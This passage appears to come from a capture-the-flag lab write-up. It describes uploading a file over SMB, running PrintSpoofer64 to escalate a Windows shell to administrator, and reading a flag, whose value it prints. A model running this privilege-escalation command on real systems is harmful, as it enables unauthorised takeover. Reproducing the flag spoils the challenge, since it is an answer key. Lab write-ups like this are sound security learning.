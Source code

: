 
#Victim_machine

Then:

- Upload the file to the `images$` share via SMB.
- Run the following code:
```
C:\xampp\htdocs\images>PrintSpoofer64 -i -c cmd.exe
```

![[Sing user privileges-20250822122401911.webp]]

Now you're root.
![[Sing user privileges-20250822122551826.webp]]


## Flag

- Go to `c:\Users\Administrator\Desktop`.
- Show the content of `admin_flag.txt`.

> [!Question] What is the contents of the admin_flag.txt?
> `thm{p455w02d_c4n_83_f0und_1n_p141n_73x7_4dm1n_5c21p75}`

